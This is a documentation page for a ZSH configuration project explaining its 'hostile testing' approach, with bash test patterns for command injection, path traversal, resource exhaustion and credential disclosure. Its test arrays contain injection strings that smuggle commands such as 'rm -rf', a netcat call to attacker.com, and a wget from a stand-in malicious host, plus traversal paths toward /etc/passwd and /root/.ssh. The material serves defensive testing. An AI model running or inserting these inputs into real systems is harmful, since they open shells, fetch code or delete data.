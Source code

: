 Hostile Testing Philosophy
=========================

This document explains the hostile testing approach used throughout the ZSH configuration system API documentation.

.. warning::

   All tests in this documentation follow **hostile testing principles** - they are designed to break the system, not validate happy paths.

Overview
--------

The ZSH configuration system uses **hostile testing** as mandated by the development requirements. This approach replaces traditional "vanity tests" with real failure-detection tests.

**Hostile Testing Definition:**

Hostile testing has three mandatory components:

1. **BREAK THE ENVIRONMENT** - Test with broken PATH, corrupted files, missing dependencies, exhausted resources, malicious environment variables
2. **ASSUME THE DEVELOPER IS AN IDIOT** - Test for command injection, path traversal, buffer overflows, missing input validation, race conditions, resource leaks, silent failures
3. **WRITE LIKE A VP ENGINEERING TRYING TO FIRE THE DEVELOPER** - Be ruthless in finding ANY excuse. Look for security vulnerabilities, performance issues, poor error handling, inconsistent state management, timing attacks, memory corruption.

Vanity Tests vs Hostile Tests
-----------------------------

**❌ VANITY TESTS (Eliminated)**

Vanity tests only verify functions exist or basic functionality works:

.. code-block:: bash

   # VANITY TEST - Only checks function exists
   test_function_exists() {
       type my_function >/dev/null 2>&1
   }

   # VANITY TEST - Only tests happy path
   test_basic_functionality() {
       my_function "valid_input"
       [[ $? -eq 0 ]]
   }

**✅ HOSTILE TESTS (Required)**

Hostile tests attempt to break the system and verify security:

.. code-block:: bash

   # HOSTILE TEST - Command injection resistance
   test_function_injection_resistance() {
       # Test command injection attempts - should not execute malicious commands
       my_function "input; rm -rf /tmp/attack" >/dev/null 2>&1
       assert_equals $? 1 "Should reject command injection attempts"
       assert_false "[ -f '/tmp/attack_executed' ]" "Should not execute injected commands"

       # Test with command substitution attempts
       my_function "\\$(touch /tmp/exploit)" >/dev/null 2>&1
       assert_equals $? 1 "Should reject command substitution attacks"
       assert_false "[ -f '/tmp/exploit' ]" "Should not execute command substitution"
   }

Test Categories
---------------

**1. Security Vulnerability Tests**

- **Command Injection**: Verify functions resist shell command injection
- **Path Traversal**: Ensure file operations don't escape intended directories
- **Information Disclosure**: Verify sensitive data isn't leaked in error messages
- **Input Validation**: Test with malformed, oversized, and malicious input
- **Authentication Bypass**: Verify credential systems can't be circumvented

**2. Resource Exhaustion Tests**

- **Memory Leaks**: Verify functions don't consume excessive memory
- **CPU Starvation**: Test behavior under high CPU load
- **Disk Space**: Test with insufficient disk space
- **File Descriptor Limits**: Test with exhausted file descriptors
- **Network Timeouts**: Verify proper timeout handling

**3. Race Condition Tests**

- **Concurrent Access**: Test multiple simultaneous function calls
- **File Locking**: Verify proper file access coordination
- **Signal Handling**: Test behavior during signal interruption
- **Process Cleanup**: Verify proper cleanup of background processes

**4. Environmental Attack Tests**

- **PATH Manipulation**: Test with corrupted or malicious PATH
- **Environment Pollution**: Test with malicious environment variables
- **Missing Dependencies**: Test behavior when required tools are missing
- **Filesystem Corruption**: Test with corrupted or read-only filesystems

Test Implementation Patterns
----------------------------

**Pattern 1: Injection Resistance**

.. code-block:: bash

   test_function_injection_resistance() {
       local injection_attempts=(
           "input; rm -rf /tmp/attack"
           "input\\$(touch /tmp/exploit)"
           "input\\`id > /tmp/command\\`"
           "input|nc attacker.com 4444"
           "input&wget malicious.com/script"
       )

       for injection in "${injection_attempts[@]}"; do
           my_function "$injection" >/dev/null 2>&1

           # Verify no commands were executed
           assert_false "[ -f '/tmp/attack' ]" "Should not execute rm"
           assert_false "[ -f '/tmp/exploit' ]" "Should not execute touch"
           assert_false "[ -f '/tmp/command' ]" "Should not execute id"
       done
   }

**Pattern 2: Resource Exhaustion**

.. code-block:: bash

   test_function_resource_exhaustion() {
       local start_memory=$(ps -o rss= -p $$ 2>/dev/null || echo 0)

       # Stress test with many iterations
       for i in {1..1000}; do
           my_function "test_input_$i" >/dev/null 2>&1
       done

       local end_memory=$(ps -o rss= -p $$ 2>/dev/null || echo 0)
       local memory_increase=$((end_memory - start_memory))

       # Should not leak significant memory
       assert_true "(( memory_increase < 1024 ))" "Should not leak memory (leaked ${memory_increase}KB)"
   }

**Pattern 3: Race Conditions**

.. code-block:: bash

   test_function_race_conditions() {
       local pids=()

       # Launch concurrent operations
       for i in {1..20}; do
           (my_function "input_$i" > "/tmp/result_$i") &
           pids+=($!)
       done

       # Wait for all processes
       for pid in "${pids[@]}"; do
           wait "$pid" 2>/dev/null || true
       done

       # Verify all operations completed correctly
       local success_count=0
       for i in {1..20}; do
           if [[ -f "/tmp/result_$i" ]]; then
               ((success_count++))
               rm -f "/tmp/result_$i"
           fi
       done

       assert_true "(( success_count >= 18 ))" "At least 90% of concurrent operations should succeed"
   }

**Pattern 4: Information Disclosure Prevention**

.. code-block:: bash

   test_function_information_disclosure() {
       # Set sensitive environment
       export SECRET_PASSWORD="TopSecret123!"
       export API_KEY="secret_api_key_456"

       # Capture all output during error conditions
       local output=$(my_function "invalid_input" 2>&1 || true)

       # Verify no sensitive information leaked
       assert_false "[[ '$output' =~ 'TopSecret123!' ]]" "Should not disclose passwords"
       assert_false "[[ '$output' =~ 'secret_api_key' ]]" "Should not disclose API keys"
       assert_false "[[ '$output' =~ '/Users/.*/credentials' ]]" "Should not disclose file paths"
   }

Implementation Requirements
---------------------------

**All API Reference Tests Must:**

1. **Test Failure Modes**: Every test must attempt to break the function
2. **Verify Security**: No command injection, path traversal, or information disclosure
3. **Check Resource Usage**: Memory, CPU, disk, and network resource protection
4. **Test Concurrency**: Race conditions and concurrent access patterns
5. **Validate Input**: Malformed, oversized, and malicious input handling

**Test Naming Convention:**

- All hostile tests must be prefixed with ``# HOSTILE TEST:``
- Test names should describe the attack vector being tested
- Examples: ``test_function_injection_resistance``, ``test_function_resource_exhaustion``

**Assertion Requirements:**

- Use ``assert_false`` to verify malicious actions did NOT occur
- Use ``assert_true`` for resource limits and performance requirements
- Always include descriptive failure messages
- Test both positive (should work) and negative (should fail) cases

Production Readiness Criteria
------------------------------

A function is considered production-ready only when:

1. **All hostile tests pass** - No security vulnerabilities detected
2. **Performance requirements met** - Resource usage within acceptable limits
3. **Concurrent access safe** - No race conditions or data corruption
4. **Error handling robust** - Graceful failure under all tested conditions
5. **Information secure** - No sensitive data disclosure in any scenario

**Failure Standards:**

Any function that fails hostile testing is **BLOCKED from production** until:

- Security vulnerabilities are patched
- Resource leaks are eliminated
- Race conditions are resolved
- Error handling is improved
- Information disclosure is prevented

This hostile testing approach ensures the ZSH configuration system meets enterprise security and reliability standards.

Examples from Real Tests
------------------------

**Hostile Test: Command Injection in mkcd()**

.. code-block:: bash

   # HOSTILE TEST: Path traversal attack resistance
   test_mkcd_path_traversal_attack() {
       local original_dir="$PWD"

       # Test various path traversal attempts
       local attacks=(
           "../../../etc/passwd"
           "/tmp/../../../root/.ssh"
           "../../../../usr/bin/dangerous"
       )

       for attack in "${attacks[@]}"; do
           mkcd "$attack" 2>/dev/null || true

           # Should not end up in system directories
           assert_false "[[ '$PWD' =~ '/etc' ]]" "Should not traverse to /etc via: $attack"
           assert_false "[[ '$PWD' =~ '/root' ]]" "Should not traverse to /root via: $attack"

           cd "$original_dir" 2>/dev/null || true
       done
   }

**Hostile Test: Credential Security in Database Functions**

.. code-block:: bash

   # HOSTILE TEST: Credential information disclosure prevention
   test_postgres_credentials_disclosure_prevention() {
       # Set up credential with sensitive information
       export PGPASSWORD="SuperSecret123!"

       # Capture all output during credential setup
       local output=$(setup_postgres_credentials 2>&1)

       # Verify no sensitive information is disclosed
       assert_false "[[ '$output' =~ 'SuperSecret123!' ]]" "Should not disclose password in output"
       assert_false "[[ '$output' =~ 'PGPASSWORD' ]]" "Should not show PGPASSWORD variable"
   }

This approach has replaced all vanity tests in the API documentation with real security and reliability tests that would catch actual production failures.
